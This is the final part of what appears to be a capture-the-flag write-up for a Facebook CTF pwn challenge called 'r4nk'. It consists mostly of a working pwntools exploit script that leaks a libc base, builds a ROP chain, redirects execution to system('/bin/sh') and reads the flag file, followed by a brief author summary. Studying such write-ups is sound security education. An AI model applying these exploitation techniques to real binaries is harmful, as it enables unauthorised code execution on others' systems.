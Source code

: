 ```python
	cmd(2)
	cmd(idx)
	cmd(r)
def cal(n):
	return (n-0x000000000602080)/8
rdi=0x0000000000400b43
rsi=0x0000000000400b41
read=0x0000000004005F0
exit=0x000000000400630
gene=0x000000000400B3A
do_call=0x000000000400B20
context.log_level='debug'
libc=ELF("./libc-2.27.so")
p=process('./r4nk')
#p=remote("challenges.fbctf.com",1339)
rank(0,cal(0x00000000004004D8))
show()
p.readuntil("0. ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7af4140-0x7ffff79e4000)
log.warning(hex(base))
raw_input()
one=base+0x4f2c5
#gdb.attach(p,'b *0x000000000400ACD')

rank(17,gene)
rank(18,0)#rbx
rank(19,1)#rbp
rank(20,0x000000000602030)#r12
rank(21,0x0)#r13
rank(22,0x000000000602050)#14
rank(23,0x10)#15
rank(24,do_call)
rank(32,rdi)
rank(33,0x000000000602050+8)
rank(34,exit)

cmd(3)
p.send(p64(libc.sym['system']+base)+"/bin/sh\x00")
sleep(1)
p.sendline("cat /home/r4nk/flag")
p.interactive()

#flag{wH0_n33ds_pop_rdx_4NYw4y}
```

# summary
emm , that all chanllenges I solved in the game ,thank facebook for this game !
and It's important have a fast vps.....several times I slove the challenge but can't get the flag. 



[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team